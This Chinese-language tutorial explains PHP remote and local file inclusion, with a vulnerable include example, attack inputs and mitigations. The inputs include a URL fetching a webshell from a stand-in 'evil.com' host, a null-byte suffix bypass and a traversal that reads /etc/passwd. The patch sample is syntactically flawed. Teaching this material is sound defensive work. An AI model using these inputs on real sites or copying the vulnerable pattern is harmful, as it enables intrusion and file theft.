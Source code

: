 # 文件上传

## 特性

- 通常在运行时触发
- 与**目录遍历攻击**不同
    - 目录遍历 : 非授权访问文件内容（查看到源文件）
    - 文件上传: 可以劫持web应用**执行**某个文件（如本地/远程的PHP文件）
- 一个 **成功的** 文件上传攻击可以造成**远程代码执行**, 并且攻击者可以使用代码执行来创建一个 webshell 来维持访问。



## 类型

1. 远程文件包含 (**RFI**): RFI 通常在 web 应用包含外部文件的时候发生。 这些远程文件通常是以  **HTTP** or **FTP** URI 的形式由用户输入提供给 web 应用的。
2. 本地文件包含 (**LFI**): LFI 除了包含的是本地文件外，其余的都和 RFI 相似, 例如：当前服务器下的文件可以被包含时。这个问题依旧能导致 RFI，通过包含攻击者可控的 web 服务器日志文件就可以做到。 



## 怎样发生的

### 1. PHP:

1. *最值得注意的是*(NOT ALL)  `include` 和 `require` 语句
2. 使用 URL 从远程位置取回数据:
    1. PHP <= 4.3.4: `allow_url_fopen = On`, **enable by default**.
    2. PHP >= 5.2.0: `allow_url_include` , but fortunately, in 5.X this directive is **disabled by default**.
3. 攻击者可以更改传入到这些函数的参数的值，从而包含进恶意代码或者（远程）文件。
4. **如何修复**: **所有 ** 的用户输入在被使用前都需要验证! **记住：用户是不能信任的!**

#### Example:

Server:

```php
<?php
   if ( isset( $_GET['language'] ) ) {
      include( $_GET['language'] . '.php' );
   }
?>
```

client:

```html
<form method="get">
   <select name="language">
      <option value="english">English</option>
      <option value="french">French</option>
      ...
   </select>
   <input type="submit">
</form>
```

开发者本意是试图根据用户选择读入  `english.php` 或 `french.php 文件`, 然而服务器并没有验证，于是给了攻击者通过 language 参数注入其他路径和文件的可能。

**尝试攻击的几种途径**

1. `?language=http://evil.com/webshell.txt?` - 注入远程服务器上的包含恶意代码的文件 (**RFI**)
2. `?language=C:\\ftp\\upload\\expolit` - 执行已经通过别的漏洞上传的  'exploit.php'  文件内容(**LFI**)
3. `?language=C:\\data.txt%00` - 利用 **NULL meta character** 移除 `.php` 后缀, 从而运行执行 php 外的文件. **BTW**: 这个bug在PHP5.3后被修复了。
4. `?language=../../../../etc/passwd%00` - 允许攻击者通过“目录遍历漏洞”来读取 `/etc/passwd` 文件
5. 有时候攻击者可以修改 [HTTP](https://en.wikipedia.org/wiki/HTTP) 头 (such as `User-Agent`) 为 PHP 代码来达到远程代码执行的效果。

**减轻漏洞危害的措施**

1. 在需要接受参数的地方使用白名单策略
2. 过滤危险的字符或单词
3. 对传入的路径进行验证，确保没有包含非程序本意的字符或模式
4. [**best**] 使用预定义的 **switch/case** 语句来决定包含什么文件而不是使用 URL 或者用户的输入

**Patch it!**

Server:

```php
<?php
    if (isset($_GET['language']){
        switch ($_GET['language']){
            case 'english':
                xxx;
            case 'french':
                xxx;
            ...
        }
    }
?>
```

